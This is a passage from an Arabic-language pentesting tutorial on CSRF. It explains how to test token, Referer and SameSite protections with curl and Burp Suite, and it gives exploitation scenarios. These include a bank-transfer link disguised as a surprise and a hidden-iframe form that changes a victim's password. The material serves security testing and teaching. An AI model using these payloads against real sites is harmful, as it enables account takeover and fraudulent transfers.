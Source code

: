 #### **اختبار عملي لتجاوز الحماية**:
- **اختبار CSRF Token**:
  - استخدم Burp Suite لتسجيل طلب POST.
  - أعد إرسال الطلب من غير الـ Token أو بـ Token مختلف:
    ```bash
    curl -X POST -d "new_password=attacker123" /change-password
    ```
  - لو الطلب اتقبل، يبقى الـ Token مش فعال.

- **اختبار Referer**:
  - أعد إرسال الطلب مع رأس Referer فارغ أو من موقع آخر:
    ```bash
    curl -X POST -H "Referer: " -d "new_password=attacker123" /change-password
    ```
  - لو نجح، يبقى فيه ثغرة.

- **اختبار SameSite Cookies**:
  - افتح الموقع في متصفح، واستخدم DevTools (F12) لفحص الـ Cookies.
  - لو الـ Cookie مش عليه `SameSite=Strict`، جرب هجوم CSRF عادي.

#### **الخلاصة بالعامية**:
الموقع لو حاطط حماية زي الـ Token أو الـ Referer، لازم تفحصها كويس. جرب تبعت طلبات من غير الـ Token أو بـ Referer فاضي. لو الموقع قبل الطلب، يبقى فيه فتحة تستغلها. الأدوات زي Curl وBurp هتخليك تختبر بسرعة.

---

### **4. سيناريوهات استغلال CSRF (للـ Pentester)**

#### **سيناريو 1: تحويل أموال في موقع بنك**
- **الوصف**: موقع بنك بيسمح بتحويل فلوس بطلب GET أو POST من غير CSRF Token.
- **الاستغلال**:
  - أنشئ رابط زي: `/transfer?amount=1000&to=attacker_account`.
  - أرسله للضحية عبر بريد إلكتروني أو حطه في صورة.
  - **مثال كود**:
    ```html
    <a href="/transfer?amount=1000&to=attacker_account">Click here for a surprise!</a>
    ```

#### **سيناريو 2: تغيير كلمة السر**
- **الوصف**: موقع بيسمح بتغيير كلمة السر بطلب POST.
- **الاستغلال**:
  - أنشئ صفحة HTML تبعت طلب POST تلقائياً (زي المثال في القسم 2).
  - استضف الصفحة على موقعك وأرسل الرابط للضحية.
  - **مثال إضافي**:
    ```html
    <iframe style="display:none" name="csrf-frame"></iframe>
    <form method="POST" action="/change-password" target="csrf-frame">
      <input type="hidden" name="new_password" value="hacked123">
      <input type="submit" value="Submit" onclick="this.parentNode.submit();">
    </form>
    ```
